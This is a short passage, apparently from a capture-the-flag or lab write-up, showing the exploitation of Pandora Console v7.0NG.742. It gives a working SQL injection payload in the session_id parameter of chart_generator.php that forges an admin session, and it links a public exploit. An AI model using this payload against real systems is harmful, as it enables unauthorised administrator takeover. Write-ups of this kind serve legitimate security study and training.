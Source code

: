 ## 5. Exploitation

Pandora Console v7.0NG.742 detected. Vulnerable to **SQL injection**:  
[Exploit reference](https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated)

SQLi to hijack admin session:

```bash
include/chart_generator.php?session_id=%27%20union%20SELECT%201,2,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20--%20SgGO
```

![](screenshots/pandora_console_cookie_admin.png)

Cookie updated, if we refresh the website,  the admin login is successful:

![](screenshots/pandora_console_login.png)
